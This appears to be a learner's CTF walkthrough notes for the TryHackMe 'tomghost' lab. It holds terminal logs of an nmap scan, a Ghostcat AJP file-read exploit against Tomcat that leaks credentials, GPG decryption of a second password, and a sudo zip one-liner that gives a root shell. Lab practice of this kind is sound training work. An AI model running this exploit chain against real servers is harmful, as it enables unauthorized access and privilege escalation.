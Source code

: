 kali@kali:~/oscptraining/tryhackme/tomghost$ nmap -sV -sC -o nmap 10.10.86.50
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 08:56 EDT
Nmap scan report for 10.10.86.50
Host is up (0.33s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.99 seconds



kali@kali:~/oscptraining/tryhackme/tomghost$ python3 ajpShooter.py http://10.10.86.50:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>


tbh im not too sure what's happening over here below

kali@kali:~/oscptraining/tryhackme/tomghost$ gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
kali@kali:~/oscptraining/tryhackme/tomghost$ gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j


merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

command to escalate

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
